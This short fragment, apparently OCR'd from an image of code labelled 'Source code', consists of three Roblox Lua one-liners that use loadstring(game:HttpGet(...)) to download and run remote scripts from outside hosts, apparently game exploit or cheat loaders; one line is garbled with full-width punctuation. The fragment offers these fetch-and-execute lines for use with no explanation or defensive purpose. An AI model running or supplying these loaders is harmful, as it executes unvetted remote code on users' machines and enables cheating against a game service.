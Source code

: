 
loadstring(game:HttpGet("https://jack1214060.xyz/jayhub",true))()
loadstring（game：HttpGet（ 'https://system-exodus.com/scripts/madcity/MadLadsAR.lua',true））（）
loadstring(game:HttpGet('https://system-exodus.com/scripts/madcity/MadLadsAR.lua',true))()
